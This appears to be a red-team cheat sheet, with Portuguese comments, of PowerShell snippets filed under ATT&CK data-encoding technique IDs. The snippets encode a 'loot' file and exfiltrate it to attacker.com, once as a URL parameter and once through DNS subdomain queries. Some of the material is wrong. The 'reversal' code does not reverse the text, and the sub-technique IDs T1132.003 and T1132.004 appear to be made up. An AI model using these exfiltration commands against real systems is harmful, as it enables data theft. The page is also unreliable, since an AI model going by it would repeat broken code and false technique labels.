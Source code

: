 ## ✅ T1132.001 - Standard Encoding (Base64, Hex)

```powershell
# Codificar conteúdo de um arquivo em Base64
$bytes = [System.IO.File]::ReadAllBytes("C:\loot.txt")
$encoded = [Convert]::ToBase64String($bytes)
$encoded | Out-File -FilePath "C:\loot_encoded.txt"
```

## ✅ T1132.002 - Non-Standard Encoding (Custom Obfuscation)

```powershell
# Codificar em formato customizado (inversão + base64)
$raw = Get-Content C:\loot.txt
$reversed = -join ($raw.ToCharArray() | ForEach-Object { $_ })[-1..0]
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($reversed))
$encoded | Out-File "C:\loot_custom_encoded.txt"
```

---

## ✅ T1132.003 - Encoding para Exfiltração via URL

```powershell
# Codificar em Base64 e enviar como parâmetro de URL
$content = Get-Content C:\loot.txt | Out-String
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($content))
Invoke-WebRequest -Uri "http://attacker.com/exfil?data=$encoded"
```

---

## ✅ T1132.004 - Encoding via DNS Queries

```powershell
# Enviar dados codificados como subdomínios DNS
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("my_secret_data"))
$domain = "$encoded.attacker.com"
nslookup $domain
```

